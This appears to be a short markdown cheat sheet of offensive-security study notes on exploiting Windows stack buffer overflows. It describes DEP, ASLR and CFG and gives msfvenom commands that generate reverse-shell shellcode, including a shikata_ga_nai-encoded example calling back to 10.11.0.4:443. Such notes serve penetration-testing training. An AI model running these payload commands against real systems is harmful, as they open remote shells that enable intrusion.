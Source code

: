 
## Windows Buffer Overflows
> Tips & Tricks for exploiting a stack based buffer overflow on targets running Windows

#### Buffer Overflow Protection Mechanisms on Windows
- DEP -> Data Execution Protection
	- hardware/software that perform extra memory access checks to make sure code is not execution from data pages
- ASLR -> Address Space Layout Randomization
	- randomizes the base address of a program and it's DLL's every time it is loaded so that exploitation of a statis memory address is not feasible
	- This is not implemented on WinXP
- CFG -> Control-Flow Guard 
	- prevents code from branching and overwriting memory address pointers

### MSFVenom Shellcode Payloads
- standard shellcode payload -> rev shell: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 -f -c```
- Shikata Ga Nai encoded payload to prevent bad characters from stopping overwrite: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\list\of\bad\chars\hex"```
		- Example: 
			- ```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 EXITFUNC=thread LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"```